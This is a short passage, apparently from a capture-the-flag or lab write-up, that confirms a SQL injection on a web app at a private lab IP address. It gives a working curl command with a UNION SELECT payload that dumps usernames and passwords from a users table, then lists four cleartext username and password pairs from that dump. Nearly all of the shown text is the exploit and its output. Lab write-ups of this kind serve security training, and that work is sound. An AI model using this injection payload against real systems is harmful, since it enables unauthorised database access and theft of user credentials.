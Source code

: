 ![Screenshot placeholder](screenshots/confirmed_injection.png)

Confirmed injection. Extract all users:

```bash
  curl -s -k -L "http://192.168.1.107:8080/mercuryfacts/0 UNION SELECT GROUP_CONCAT(username,0x3a,password SEPARATOR '<br>') FROM users/" -o out_users.html
```

Juicy credentials:

```
john:johnny1987
laura:lovemykids111
sam:lovemybeer111
webmaster:mercuryisthesizeof0.056Earths
```
